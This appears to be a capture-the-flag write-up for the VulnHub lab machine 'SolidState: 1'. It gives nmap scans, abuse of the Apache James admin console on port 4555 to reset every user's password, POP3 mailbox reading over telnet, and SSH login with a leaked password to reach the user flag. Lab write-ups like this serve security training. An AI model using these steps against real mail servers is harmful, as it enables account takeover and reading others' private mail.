:::::::::::::::::::::::::::::: page
# SolidState: 1 {#solidstate-1 .title}

\

## 

## SolidState: 1

- **[SolidState: 1]{style="color:#060f94;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/solidstate-1,261/>



- Now unzip the file .
- Make a machine .
- Insert vmdk file in IDE Controller .
- Start the machine .

1.  [Network Scanning]{style="color:#f6d32d;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.237
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.237
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.237
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.237
:::



1.  [Web Enumeration]{style="color:#f6d32d;"} :

- IP visit in browser : <http://192.168.2.237/>

<!-- -->

- Connect to James Admin port 4555 :

::: codebox
    nc 192.168.2.237 4555
:::

- Check the user list :

::: codebox
    listusers
:::



- Set all user password :

::: codebox
    setpassword james 1234
:::

::: codebox
    setpassword thomas 1234
:::

::: codebox
    setpassword john 1234
:::

::: codebox
    setpassword mindy 1234
:::

::: codebox
    setpassword mailadmin 1234
:::



- Connect telnet :

::: codebox
    telnet 192.168.2.237 110
:::

- Then login john user :

::: codebox
    USER john
:::

- 

::: codebox
    PASS 1234
:::



- Check john mailbox contains :

::: codebox
    LIST
:::



- Retrive the mail :

::: codebox
    RETR 1
:::

 Clue mindy access .

- In new terminal login mindy user :

::: codebox
    telnet 192.168.2.237 110
:::

- Then login john user :

::: codebox
    USER mindy
:::

- 

::: codebox
    PASS 1234
:::

- Check john mailbox contains :

::: codebox
    LIST
:::



- Retrive the both mail :

::: codebox
    RETR 1
:::

- 

::: codebox
    RETR 2
:::



1.  [SSH Access]{style="color:#f6d32d;"} :

- Make SSH connection :

::: codebox
    ssh mindy@192.168.2.237
:::

::: codebox
    Username : mindy
    Password : P@55W0rd1!2@
:::



- After login check the list :

::: codebox
    ls
:::

- 

::: codebox
    cat user.txt
:::

 We got the flag .
::::::::::::::::::::::::::::::
